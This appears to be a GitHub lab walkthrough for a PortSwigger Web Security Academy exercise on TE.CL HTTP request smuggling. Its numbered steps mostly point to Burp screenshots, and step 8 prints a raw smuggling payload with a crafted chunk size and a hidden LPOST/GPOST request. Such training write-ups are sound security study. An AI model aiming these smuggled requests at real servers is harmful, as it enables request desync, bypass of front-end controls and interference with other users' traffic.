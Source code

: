 # HTTP request smuggling, basic TE.CL vulnerability

## This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

## To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

### TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.

---

### step 1

![screenshot](./images/images_lab2/lab2_homepage_get_request.png)

### step2

change request method from get to post

![screenshot](./images/images_lab2/lab2_homepage_post_request.png)

### step3

make sure to untick update content-length otherwise it will update automatically

![screenshot](./images/images_lab2/lab2_testing_content_type.png)

### step4

![screenshot](./images/images_lab2/lab2_x_equal_g_g0post.png)

### step5

![screenshot](./images/images_lab2/lab2_hexadecimal_value_a.png)

### step6

![screenshot](./images/images_lab2/lab2_content_length.png)

### step7

![screenshot](./images/images_lab2/lab2_content_length_greater_than_a.png)

### step8

payload

```
9d
LPOST / HTTP/1.1
Host: 0af5000b0398135283c14c05001f0024.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

### Note : you can directly use GPOST in place of LPOST

![screenshot](./images/images_lab2/lab2_payload_testing.png)

### step9

![screenshot](./images/images_lab2/lab2_r_n_contentent_length.png)

---

### step 10

![screenshot](./images/images_lab2/lab2_content_length_15.png)

---

### step 11

![screenshot](./images/images_lab2/lab2_hexadecimal_vlaue_on_another_request.png)

---

### step 12

change LPOST to GPOST

![screenshot](./images/images_lab2/lab2_final_payload_gpost_to_solve_lab.png)

![screenshot](./images/images_lab2/portswigger_wsa/P03_advanced_topics/P21_HTTP request smuggling/labs/images/images_lab2/lab2_solved_lab.png)

we can remove unnecessary lines from repeter

---

### step 12(another way)

![screenshot](./images/images_lab2/lab2_gpost.png)
